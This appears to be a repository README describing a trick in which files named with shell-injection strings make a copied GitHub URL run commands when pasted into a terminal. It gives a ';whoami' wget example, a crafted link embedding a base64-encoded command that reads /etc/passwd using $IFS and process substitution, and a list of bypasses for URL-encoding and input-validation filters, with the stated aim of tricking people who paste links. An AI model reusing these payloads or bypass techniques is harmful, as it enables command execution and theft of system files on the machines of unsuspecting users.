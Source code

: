 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the address bar

Brainlets like LTT will copy the url and eventually execute the payload, since they don't know about the "raw" button.
Bypassing the rookie level will get you to this point.
Bypassing the god-like level will get you the same, but on the raw content page, which is way nastier.
Create a file called ";whoami" and follow the steps above.
When its url is pasted in the terminal, like ```wget http://localhost/;whoami```,
the payload is executed. Can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php

# markdown
we can also put the link in the readme  
and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
'>'   # needed for redirection, replaced by "<"
```

# todo
rookie level:
```
'<'
```
should be pretty easy, we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. goodbase -d "bG1hbwo="

god-like level:
```
'$'
';'
```
should be impossible since you can't use variables nor "start" the command execution
